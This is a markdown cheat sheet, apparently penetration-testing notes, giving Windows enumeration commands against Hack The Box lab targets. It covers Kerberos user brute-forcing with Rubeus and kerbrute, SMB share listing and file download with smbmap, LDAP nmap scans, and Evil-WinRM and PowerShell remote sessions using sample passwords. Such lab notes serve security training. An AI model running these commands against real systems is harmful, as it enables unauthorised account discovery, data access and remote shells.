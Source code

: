 # TODO : Blackbox
# Windows Blackbox enumeration	

## Port 88 - Kerberos 
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     
  


## Port 135 - MSRPC


## Port 445 - SMB
**List SMB shares:**  
`smbmap -u "Guest" -H "10.10.11.152"`  
**Browse SMB shares:**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`  
**Download SMB files:**   
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`  

## Ports 389,636,3268,3269 - LDAP
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`  
  
## Ports 5985,5986 - WinRM
Using Evil-WinRM:  
`gem install evil-winrm`  
`evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>`  
  
Using Powershell:  
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`  
  
`PS> Invoke-Command -computername computer_name.domain.tld -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`    

# TODO : Privesc
